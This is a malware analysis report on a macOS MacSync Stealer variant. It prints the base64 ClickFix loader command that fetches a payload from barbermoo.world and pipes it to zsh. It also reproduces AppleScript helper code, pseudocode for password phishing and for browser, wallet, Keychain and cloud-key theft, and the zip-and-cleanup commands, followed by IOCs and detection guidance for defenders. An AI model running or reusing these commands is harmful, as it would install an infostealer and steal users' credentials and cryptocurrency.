

A security professional working in the threat hunting domain recently identified a suspicious URL specifically targeting macOS users. The campaign appears to leverage a macOS variant of the well-known ClickFix technique, making it particularly noteworthy. Cognisys researchers accepted this challenge to understand this malicious code. 

Initial analysis shows that this sample shares characteristics with earlier remote-fetched variants, which typically relied on obfuscated Zsh scripts that invoked dynamic AppleScript for execution. However, this iteration demonstrates a clear evolution in tradecraft. The activity is largely memory-resident and leaves minimal artifacts on disk, significantly reducing its forensic footprint and making detection and analysis more challenging for defenders.
![[image1.png]]

  

A quick review identified that this sample have similarities with older remote-fetched variants (delivered via obfuscated Zsh → dynamic AppleScript), while this one is memory-resident with minimal disk traces.

 
**Background**

In mid-2025, MacSync Stealer emerged as a rebranded evolution of the low-cost Mac.c infostealer (first observed in April 2025), quickly gaining traction among cybercriminals for its cryptocurrency-focused theft capabilities. This report examines a variant from the family's script-based era.

This sample relies on classic social engineering techniques such as ClickFix(a deceptive social engineering technique used by cybercriminals to manipulate victims into clicking on malicious links or downloading harmful files ) or drag-to-terminal tricks to execute an obfuscated Zsh loader that remotely fetches and runs a large AppleScript payload. Unlike the modern "hands-off" Swift droppers, this version requires user interaction to initiate but compensates with aggressive in-memory execution, password phishing, and attempts to trojanize popular hardware wallet apps which is distributed by a russian APT via https://macdatainbox.com/r2/

**Initial Detection**

Most payloads related to MacSync Stealer tend to run primarily in memory and leave little to no trace on disk. They typically rely on a ClickFix-style technique that tricks users into pasting a base64 encoded command. In both cases, the payload is decoded using base64 -D, decompressed with gunzip, stored in a variable and executed using eval. This then results in the fetching of a second-stage payload via curl.
 
![[image2 1.png]]

```
echo "Apple-Installer: https://apps.apple.com/hidenn-gift.application/macOsAppleApicationSetup421415.dmg" && echo 'ZWNobyAnSW5zdGFsbGluZyBwYWNrYWdlcyBwbGVhc2Ugd2FpdC4uLicgJiYgY3VybCAta2ZzU0wgaHR0cDovL2JhcmJlcm1vby53b3JsZC9jdXJsL2M4ZjM4OTc2ODBiNDQ4YzE5N2I5YzY2MTQ0YmY4MWQyMjg2MzNmYmRlYmVkNzg4ZTFmMDYyNWE0ZGU4MzQ4MjV8enNo'|base64 -D|zsh
```

Base64 code block

Once decoded, the base64 payload is a match to the usual MacSync Stealer. barbermoo[.]world domain is used for hosting and uploading the infostealer files & logs.
![[image3.png]]
  
This downloads & executes two different scripts using curl & osascript which does the following operations.![[Pasted image 20260108103659.png]]

#### Evolution of MacSync Stealer: A Deep Dive into Memory-Resident macOS Malware

In the ever-evolving landscape of macOS threats, researchers at Cognisys have deconstructed a sophisticated variant of **MacSync Stealer (v1.1.2_release)**. While earlier versions relied on more traditional disk-based artifacts, this latest iteration demonstrates a significant evolution in tradecraft—shifting toward memory-resident execution to significantly reduce its forensic footprint.


---

## 1. Utility Functions: Foundations of Stealth

The malware utilizes several foundational helper functions to handle file operations reliably across different macOS environments. These functions enable safe, recursive copying of large directory trees (such as wallet folders) without errors, which is critical for stealthy data staging.


```java
on filesizer(paths)
	set fsz to 0
	try
		set theItem to quoted form of POSIX path of paths
		set fsz to (do shell script "/usr/bin/mdls -name kMDItemFSSize -raw " & theItem)
	end try
	return fsz
end filesizer

on mkdir(someItem)
	try
		set filePosixPath to quoted form of (POSIX path of someItem)
		do shell script "mkdir -p " & filePosixPath
	end try
end mkdir

on FileName(filePath)
	try
		set reversedPath to (reverse of every character of filePath) as string
		set trimmedPath to text 1 thru ((offset of "/" in reversedPath) - 1) of reversedPath
		set finalPath to (reverse of every character of trimmedPath) as string
		return finalPath
	end try
end FileName

on BeforeFileName(filePath)
	try
		set lastSlash to offset of "/" in (reverse of every character of filePath) as string
		set trimmedPath to text 1 thru -(lastSlash + 1) of filePath
		return trimmedPath
	end try
end BeforeFileName

on writeText(textToWrite, filePath)
	try
		set folderPath to BeforeFileName(filePath)
		mkdir(folderPath)
		set fileRef to (open for access filePath with write permission)
		write textToWrite to fileRef starting at eof
		close access fileRef
	end try
end writeText

on readwrite(path_to_file, path_as_save)
	try
		set fileContent to read path_to_file
		set folderPath to BeforeFileName(path_as_save)
		mkdir(folderPath)
		do shell script "cat " & quoted form of path_to_file & " > " & quoted form of path_as_save
	end try
end readwrite

on isDirectory(someItem)
	try
		set filePosixPath to quoted form of (POSIX path of someItem)
		set fileType to (do shell script "file -b " & filePosixPath)
		if fileType ends with "directory" then
			return true
		end if
		return false
	end try
end isDirectory
```

---

## 2. Recursive Folder Copying

MacSync Stealer employs targeted recursive copying to exfiltrate high-value directories while avoiding "bloat" from system noise.

```bash
on GrabFolderLimit(sourceFolder, destinationFolder)
... exceptionsList includes ".DS_Store", "Cache", etc.
repeat with currentItem ...
if bankSize < 100 * 1024 * 1024 then readwrite(...)
end GrabFolderLimit

on GrabFolder(sourceFolder, destinationFolder)
... broader exceptions, including "dumps", "emoji", "__update__"
unconditionally copies all files/subfolders
end GrabFolder
```

- **GrabFolderLimit**: A size-capped recursive copy (max ~100 MB) used selectively to avoid large, low-value archives.

- **GrabFolder**: An unlimited recursive copy used for high-priority targets like desktop wallets and Telegram data.


---

## 3. Sophisticated Password Phishing

A hallmark of advanced macOS stealers is the ability to gain full user privileges through social engineering. MacSync Stealer uses a convincing phishing dialog complete with the official macOS locked icon and "System Preferences" title to capture the user's password.


```rust
on checkvalid(username, password_entered)
do shell script "dscl . authonly " & quoted form of username & space & quoted form of password_entered
... returns true only if authentication succeeds silently
end checkvalid

on getpwd(username, writemind, provided_password)
if provided_password valid -> save and return
if empty password works -> extract Chrome master password
else -> repeat loop:
display dialog "Required Application Helper..." 
with icon LockedIcon.icns, title "System Preferences"
save captured password to staging dir
end getpwd
```

The script loops indefinitely until a valid password is provided, enabling Keychain access and deeper system theft.

---

## 4. Comprehensive Browser Data Theft

The malware performs broad exfiltration across major browser engines, focusing on authentication and session data.

- **Chromium Engines**: Targets Chrome, Brave, Edge, Opera, Yandex, and Arc. It specifically harvests cookies, login data, web data, and history.
- **Gecko Engines**: Targets Firefox profiles, copying key databases like `logins.json`, `key4.db`, and `cookies.sqlite`.

```javascript
on Chromium(writemind, chromium_map)

targets: Chrome, Brave, Edge, Opera, Yandex, Arc, etc.

copies: Cookies, Login Data, Web Data, History

special handling for /Local Extension Settings/ and /IndexedDB/

→ calls grabPlugins with list of ~20 non-wallet extension IDs

end Chromium

on Gecko(writemind, gecko_map)

targets Firefox profiles

copies key databases: logins.json, key4.db, cookies.sqlite, places.sqlite
end Gecko**
```

---

## 5. Targeted Cryptocurrency Theft

The primary motivation of MacSync Stealer is the compromise of cryptocurrency assets.

### Web Wallets

The script targets multiple browser extension IDs, including MetaMask, Phantom, and TronLink. It specifically grabs `Local Extension Settings` and `IndexedDB` folders, which often contain unencrypted seed phrases or private keys.
### Desktop & Hardware Wallets

The malware performs unconditional copies of entire desktop wallet directories. Targeted wallets include:

- Trezor
- Ledger

```javascript
on ChromiumWallets(writemind, chromium_map)
pluginList with ~40+ extension IDs including:
nkbihfbeogaeaoehlefnkodbefgpgknn → MetaMask
bfnaelmomeimhlpmgjnjophhpkkoljpa → MetaMask (alternate)
... Phantom, TronLink, Yoroi, Binance Chain, Ronin, etc.
grabs Local Extension Settings and IndexedDB for matching extensions
end ChromiumWallets
```

---

## 6. Additional High-Value Collection

Beyond cryptocurrency, the stealer harvests a wide array of personal and professional data:

- **Telegram**: Full `tdata/` folder for session hijacking.
- **Keychains**: All `*.keychain-db` files.
- **CloudKeys**: `.ssh`, `.aws`, and `.kube` directories for developer credential theft.
- **Filegrabber**: Scans Desktop, Documents, and Downloads for specific extensions like `.wallet`, `.seed`, `.kdbx`, `.pem`, and `.ovpn`.

```java
Telegram(writemind, library) → full tdata/ folder

Keychains(writemind) → copies all *.keychain-db files

CloudKeys(writemind) → .ssh, .aws, .kube directories

Filegrabber(writemind) → scans Desktop/Documents/Downloads for:

.wallet, .seed, .kdbx (KeePass), .pem, .ovpn, documents

size-limited to ~10 MB, renamed sequentially

also grabs Safari cookies, autofill, history, Apple Notes databases

```

---

## 7. Exfiltration & Cleanup

To maintain a low profile, the malware zips the staged data and cleans up its tracks.

```bash
do shell script "ditto -c -k --sequesterRsrc " & writemind & " /tmp/osalogging.zip"
do shell script "rm -rf /tmp/sync*"
display dialog "Your Mac does not support this application..." with icon stop
```

The script uses the macOS-specific `ditto` command to preserve resource forks in the final ZIP. After the data is prepared, it displays a benign-looking error dialog to dismiss user suspicion while the background exfiltration completes.


#### 8. Persistence / Backdoor Installation

In order to make persistence, it checks for installed applications like ledger, trezor(popular crypto wallets) and downloads a .zip file with app.asar and Info.plist for the suitable application in order to replace the original ones.

  
![[image5.png]]  
![[Pasted image 20260108103735.png]]

#### 9. Threat Overview (Blue Team Perspective)

- Family: MacSync Stealer (rebranded from Mac.c; sometimes linked to "coins" or "ooiid" generic detections). 

- Version in this sample: Explicitly self-identifies as 1.1.2_release (x64_86 & ARM), "Build Tag: r2" – this is an older build (likely mid-2025), predating the December 2025 signed Swift variants. 

- Primary Motivation: Cryptocurrency theft + credential harvesting (heavy focus on wallets, browsers, Keychain). 

- TTPs (MITRE ATT&CK aligned):


- Initial Access: Social engineering (pirated software, fake installers, phishing DMGs). 

- Execution: osascript (AppleScript) + shell commands. 

- Privilege Escalation/Credential Access: Phishes macOS login password via fake System Preferences dialogues; validates with dscl; dumps Keychain. 

- Discovery/Collection: Recursive folder copying, targeted file grabbing (seed phrases, wallets, docs). 

- Exfiltration: ZIP to /tmp/osalogging.zip (intended for POST to C2 /gate). 

- Impact/Persistence: Attempts to Trojanize Ledger/Trezor apps via a malicious app.asar replacement. 


- Current Activity: Highly active as of Dec 2025; newer variants use notarised Swift binaries for silent payload fetch (similar technique: curl with headers to C2). 


  

#### 10. Detailed Payload Behaviour (Step-by-Step)




#### 11. Indicators of Compromise (IOCs) – Actionable for Blue Teams

|Type|Indicator|Notes|
|---|---|---|
|Domain|barbermoo.world|Dead C2 (404s); sinkhole/monitor.|
|URLs|[https://barbermoo.world/ledger/[token](https://barbermoo.world/ledger/%5Btoken?referrer=grok.com)] [https://barbermoo.world/trezor/[token](https://barbermoo.world/trezor/%5Btoken?referrer=grok.com)] [http://barbermoo.world/dynamic](http://barbermoo.world/dynamic?referrer=grok.com) [http://barbermoo.world/gate](http://barbermoo.world/gate?referrer=grok.com)|Block; monitor outbound.|
|Victim Token|c8f3897680b448c197b9c66144bf81d228633fbdebed788e1f0625a4de834825|Unique per build/victim.|
|API Key|5190ef1733183a0dc63fb623357f56d6|In headers.|
|Files/Paths|/tmp/osalogging.zip /tmp/sync[0-9]{7}/ /tmp/*.zip (ledger/trezor)|Hunt for these.|
|Strings|"MacSync Stealer" "1.1.2_release" "Build Tag: r2" Fake dialogue text|YARA-friendly.|
|Processes|osascript + curl to suspicious domains ditto zipping temp dirs|EDR behavioral rules.|
|Network|Outbound HTTP/HTTPS to barbermoo.world with specific UA + api-key header|Proxy/IDS alerts.|

#### 12. Detection Recommendations

- EDR/XDR Behavioral rules for:

- osascript piping from curl. 

- Recursive copying of browser/wallet paths. 

- Password prompts with LockedIcon.icns + "System Preferences" title. 

- ditto creating ZIPs in /tmp. 

- XProtect/MRT: Apple likely updated signatures post-Jamf report (Dec 2025); ensure systems are current. 

- Network: Block barbermoo.world; alert on old Chrome UA from macOS + api-key header. 

- Endpoint Hunting: Search for /tmp/sync*/ or osalogging.zip; check LaunchAgents for persistence (though this variant has none). 

#### 13. Mitigation & Response

- Prevention: Block unsigned/notarized apps; educate on pirated software risks; use hardware wallets. 

- If Compromised: Full password reset (all accounts, especially crypto); wipe/reimage; monitor for trojanized Ledger/Trezor apps. 

- Threat Intel: MacSync is evolving fast – monitor Jamf, SentinelOne, CrowdStrike for newer IOCs. 
  

#### 14. MITRE ATT&CK Tactics & Techniques

| ATT&CK Tactic        | Technique ID & Name                                                                                  | Description in This Sample            |
| -------------------- | ---------------------------------------------------------------------------------------------------- | ------------------------------------- |
| Initial Access       | T1566 – Phishing                                                                                     | Fake installers/DMGs                  |
| Execution            | T1059.007 – Command and Scripting Interpreter: AppleScript T1204.002 – User Execution                | osascript execution; user runs loader |
| Persistence          | T1574 – Hijack Execution Flow (app.asar replacement)                                                 | Trojanizes Ledger/Trezor apps         |
| Privilege Escalation | T1055 – Process Injection (none direct) T1548 – Abuse Elevation Control (phished password)           | Uses captured password for access     |
| Credential Access    | T1555.003 – Credentials from Password Stores: Keychain T1552 – Unsecured Credentials                 | Keychain dump; wallet seeds           |
| Discovery            | T1082 – System Information Discovery T1057 – Process Discovery                                       | system_profiler; file enumeration     |
| Collection           | T1005 – Data from Local System T1113 – Screen Capture (none) T1056 – Input Capture (phishing dialog) | Browser/wallet/file grabbing          |
| Command and Control  | T1071 – Application Layer Protocol                                                                   | HTTP curl to C2                       |
| Exfiltration         | T1041 – Exfiltration Over C2                                                                         | Intended POST of ZIP                  |
| Impact               | T1486 – Data Encrypted for Impact (none)                                                             | Crypto theft via backdoor             |

  
  

#### 15. References

[https://www.jamf.com/blog/macsync-stealer-evolution-code-signed-swift-malware-analysis/](https://www.jamf.com/blog/macsync-stealer-evolution-code-signed-swift-malware-analysis/)

[https://www.broadcom.com/support/security-center/protection-bulletin/macsync-stealer-malware](https://www.broadcom.com/support/security-center/protection-bulletin/macsync-stealer-malware)

[https://exchange.xforce.ibmcloud.com/osint/guid:1fe278fd06404638a50bf7b126f9075c](https://exchange.xforce.ibmcloud.com/osint/guid:1fe278fd06404638a50bf7b126f9075c)

  
**
